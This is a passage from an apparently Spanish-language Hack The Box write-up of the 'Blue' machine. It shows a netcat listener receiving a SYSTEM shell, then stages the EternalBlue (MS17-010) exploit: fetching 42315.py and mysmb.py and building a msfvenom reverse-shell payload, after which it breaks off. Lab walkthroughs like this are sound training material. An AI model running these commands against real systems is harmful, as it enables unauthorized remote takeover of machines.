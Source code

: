 Y observa el **rlwrap**, ya debemos tener una sesión activada:
```bash
rlwrap nc -nlvp 443
listening on [any] 443 ...
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Entramos justo como administrador de la máquina, ya solo es cuestión de buscar las flags y listo, vayamos con las otras formas de ganar acceso a la máquina.

<h2 id="exploit2">Probando Exploit: Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010)</h2>

Vamos a descargarlo y veamos si tiene un mensaje sobre como usarlo:
```bash
searchsploit -m windows/remote/42315.py
  Exploit: Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010)
      URL: https://www.exploit-db.com/exploits/42315
     Path: /usr/share/exploitdb/exploits/windows/remote/42315.py
    Codes: CVE-2017-0144
 Verified: True
File Type: Python script, ASCII text executable
```
Como tal, no viene información sobre como usarlo, menciona que debemos usar otro script llamado **mysmb.py**, quiza si buscamos en internet, podamos encontrar algo útil.

Y justo nos sale un GitHub con el Exploit que vamos a usar:
* <a href="https://github.com/AnikateSawhney/Pwning_Blue_From_HTB_Without_Metasploit" target="_blank">Repositorio de AnikateSawhney: Pwning_Blue_From_HTB_Without_Metasploit</a>

Leyéndolo un poco, menciona que este Exploit necesita usar un entorno virtual en **Python2**, aunque realmente no es necesario si es que tienes instalado **Python2** en tu entorno, así que solamente evitaremos ese paso.

Vamos a configurar el Exploit por pasos.

* Cambiando nombre de Exploit (opcional):
```bash
mv 42315.py Eternal_Blue.py
```

* Descargando **mysmb.py**:
```bash
wget https://raw.githubusercontent.com/AnikateSawhney/Pwning_Blue_From_HTB_Without_Metasploit/main/mysmb.py
```

* Creando **Reverse Shell** con **Msfvenom**:
```bash
msfvenom -p windows/shell_reverse_tcp -f exe LHOST=Tu_IP LPORT=443 > eternal-blue.exe
```
